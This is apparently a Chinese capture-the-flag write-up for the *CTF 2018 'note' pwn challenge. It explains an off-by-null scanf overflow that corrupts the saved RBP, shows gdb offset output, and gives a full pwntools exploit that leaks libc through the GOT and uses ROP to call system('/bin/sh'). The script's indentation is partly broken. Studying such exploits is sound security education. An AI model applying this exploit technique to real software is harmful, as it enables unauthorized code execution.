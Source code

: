 ```yaml
---
title: starctf note
date: 2018-9-28 00:00:00
categories:
- Pwn
tags: Pwn
---
```


## note

很神奇的一道offbynull栈题目

当时没做出来，后来赛后搞懂了忘记写wp，最近才拿出来复习下

漏洞点：

```c
char *edit()
{
  char s; // [rsp+0h][rbp-100h]

  _isoc99_scanf((__int64)"%256s", (__int64)&s);
  return strdup(&s);
}
```

scanf会多读一个\x00字节，这样就可以局部写RBP指针

写完之后的rbp：

```
$rsp   : 0x7fffffffd688      →  0x000000000040102c  →   add BYTE PTR [rax], al
$rbp   : 0x7fffffffdd68      →  0x00007fffffffde00  →  "xaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabea[...]"
```

找一下偏移

```
gef➤  pattern search xaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabea
[+] Searching 'xaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabea'
[+] Found at offset 184 (big-endian search) 
gef➤
```

之后我们要控制的栈变量是v6，存储的是一个%d，我们可以把它改成%256s

 

```
  const char *v3; // rax
  __int64 *v4; // [rsp-8h][rbp-28h]
  int v5; // [rsp+Ch][rbp-14h]
  const char *v6; // [rsp+10h][rbp-10h]
  char *v7; // [rsp+18h][rbp-8h]
  __int64 savedregs; // [rsp+20h][rbp+0h]
```

也就是在184 - 16 = 168偏移处我们写入%256s的地址

由于这个函数所有的重要参数都保存在栈上，这样下一次调用show的时候我们就可以将v7改写成我们想要泄露的地址

```
case 2:
        a2 = (char **)v7;                       // show
        printf("Note:%s\n", v7);
        break;
```

payload就形如这样

```
payload = p32(2) + p64(fmt) + p64(puts_got)
```

而后就是再一次利用栈溢出漏洞构造rop

exp：

~~~python
from pwn import *
context.log_level = 'debug'
io = process('./note')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('note')
def p():
	gdb.attach(io)
	raw_input()
def choice(c):
	io.recvuntil('>')
	io.sendline(str(c))
def show():
	choice(2)
def edit(content):
	choice(1)
	io.recvuntil(':')
	io.sendline(content)
def save():
	choice(3)
def change_id(id):
	choice(4)
	io.recvuntil(':')
	io.sendline(id)
def main():
	puts_plt = elf.symbols['puts']
	puts_got = elf.got['puts']
	fmt = 0x401129
	pop_rdi_ret = 0x401003

```
io.recvuntil(':')
io.sendline('secunda')
payload = 'A'*168 + p64(fmt)
payload += 'A'*(256 - len(payload))

edit(payload)
gdb.attach(io)
io.recvuntil('>')

payload = p32(2) + p64(fmt) + p64(puts_got)

io.sendline(payload)
io.recvuntil('Note:')
leak = u64(io.recvline(keepends = False).ljust(8,'\x00'))
log.success(hex(leak))
libc_base = leak - libc.symbols['puts']
sys = libc_base + libc.symbols['system']
bin_sh = next(libc.search('/bin/sh'))
bin_sh += libc_base
payload = 'A'*100 + p64(pop_rdi_ret)+p64(bin_sh) + p64(sys)
#payload = cyclic(20)
io.recvuntil('> ')
io.sendline(payload)
io.interactive()
```

if __name__ == '__main__':
	main()
~~~

